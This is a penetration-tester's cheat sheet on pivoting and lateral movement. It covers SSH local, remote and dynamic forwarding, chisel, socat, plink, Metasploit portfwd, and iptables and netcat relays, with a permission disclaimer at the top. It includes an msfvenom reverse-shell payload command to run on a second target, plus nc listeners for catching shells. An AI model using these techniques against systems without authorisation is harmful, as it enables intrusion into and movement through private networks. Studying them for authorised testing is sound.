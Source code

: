 # Pivoting/Lateral Movement

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.
{% endhint %}

{% hint style="danger" %}
Not much here yet...please feel free to contribute at [my GitHub page](https://github.com/zweilosec/Infosec-Notes).
{% endhint %}

## SSH Tunneling 101

```bash
# SSH local port forward to reach  an_internal_server_ip:port via server_ip
ssh tunneler@server_ip -p 2222 -L 1234:an_internal_server_ip:80 
# Now curl localhost:1234 will fetch an_internal_server_ip:80 which is reachable from server_ip only

# dynamic port forward to create a SOCKS proxy to visit any_internal_server_ip
ssh tunneler@server_ip -p 2222 -D 1080 
# next config proxychains socks4a localhost 1080; proxychains curl http://any_internal_server_ip/; which is reachable from server_ip only

# ProxyJump ssh to an_internal_host via ssh server_ip
ssh -J tunneler@server_ip:2222 whistler@an_internal_host # which is only accessible from server_ip

# SSH remote port forward to send traffic back to our local port from a port of server_ip
ssh whistler@server_ip -p 2222 -L 58671:localhost:1234 # 
# this will listen on port 58671 of server_ip and tunnel the traffic back to us on loclahost:1234; nc -nlvp 1234 to receive for example

# Chain ProxyJump + dynamic port forward to create a proxy of 2nd_box which is only accessible via 1st_box
ssh -j firstuser@1st_box:2222 seconduser@2nd_box -D 1080
# next config proxychains socks4a localhost 1080; proxychains curl http://any_internal_server_ip/; which is reachable from 2nd_box only

# bypass first time prompt when have non-interactive shell

ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"
```

### SSH reverse tunneling
```bash
ssh -f -N -R 8000:10.3.3.14:80 -R 4443:10.3.3.14:443 -R 33306:10.3.3.14:3306 -R 33389:10.3.3.14:3389  -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i key kali@192.168.19.57

# kill with
ps -C ssh
kill -9 <pid>
```

#### If you already have an SSH session

```bash
-R 8081:172.24.0.2:80 # (on my Kali machine listen on 8081, get it from 172.24.0.2:80)
# <KALI 10.1.1.1>:8081<------------<REMOTE 172.24.0.2>:80
# Now you can access 172.24.0.2:80, which you didn't have direct access to


-L 8083:127.0.0.1:8084 # (on your machine listen on 8083, send it to my Kali machine on 8084)
# <KALI 127.0.0.1>:8084<------------<REMOTE 10.1.1.230>:8083<------------<REMOTE X.X.X.X>:XXXX
# run nc on port 8084, and if 10.1.1.230:8083 receives a reverse shell, you will get it


For reverse shell:
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.1.1.230 LPORT=8083 -f exe -o shell
Run it on 2nd remote target to get a shell on Kali
```

#### If you didn't have an SSH session

First, SSH to your Kali from target machine

On Kali:

```bash
service ssh start 
# "add a user, give it /bin/false in /etc/passwd"
ssh - -R 12345:192.168.122.228:5986 test@10.1.1.1
```

## Port Forwarding (Single port to one port)

### Using Socat
For linux

Forward your 8083 to 10.39.0.2:443

```bash
./socat TCP4-LISTEN:8083,fork TCP4:10.39.0.2:443
```

### Using Chisel
Most platforms

Remote static tunnels "port to port":

```bash
#On Kali "reverse proxy listener":
./chisel server -p 8000 -reverse

#General command:
./chisel client $YOUR_IP:$YOUR_CHISEL_SERVER_PORT L/R:[$YOUR_LOCAL_IP]:$TUNNEL_LISTENING_PORT:$TUNNEL_TARGET:$TUNNEL_PORT
```

#### Remote tunnels "access IP:PORT you couldn't access before":

```bash
#On Target:
./chisel client 10.1.1.1:8000 R:127.0.0.1:8001:172.19.0.3:80
```

#### Local tunnels "listen on the target for something, and send it to us":

```bash
#On Target:
./chisel client 10.1.1.1:8000 9001:127.0.0.1:8003
```

### Using Metasploit
Get meterpreter session, then:

```bash
portfwd add -l 4445 -p 4443 -r 10.1.1.1
# Use -R to make it reverse
```

### Using Plink.exe
Just like SSH, but Windows only. Part of the Putty toolset.

```bash
#On Attacker
service ssh start 
cp /usr/share/windows-binaries/plink.exe #to the target machine
```

```bash
#On Target: 
plink.exe 10.10.10.123 -P 22 -C -N -L 0.0.0.0:4445:10.10.10.123:4443 -l $KALIUSER -pw $PASS
```

## Dynamic Port Forwarding (Single port to any remote port)

* setup proxychains with socks5 on 127.0.0.1:1080
  * Or set up socks5 proxy on firefox
  > For nmap use `-Pn -sT` or use tcp scanner in msf

```sh
ssh -i bobs.key -p 2222 bob@10.10.10.123 -D1080
```

### Using Chisel

```bash
#On Kali:
./chisel server -p 8000 -reverse

#On Target:
./chisel client 10.1.1.1:8000 R:8001:127.0.0.1:1080
./chisel server -p 8001 --socks5

#On Kali:
./chisel client 127.0.0.1:8001 socks
```

### Using Metasploit

* Get meterpreter session
* Auto route (multi/manage/autoroute)
* Start socks proxy (auxiliary/server/socks4a)

## Forward ports using built-in firewall

### Using iptables

To set up a port forwarder using iptables run the below commands as root (or with sudo).

```bash
echo '1' > /proc/sys/net/ipv4/conf/eth0/forwarding
iptables -t nat -A PREROUTING -p tcp -i eth0 --dport $lport -j DNAT --to-destination $ip:$rport
iptables -A FORWARD -p tcp -d $ip --dport $rport -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
```

## Port Forwarding with netcat

Forward traffic using netcat and a named pipe.

```bash
mknod $mypipe p
nc -l -p $lport < $mypipe | nc $ip $rport > $mypipe
```
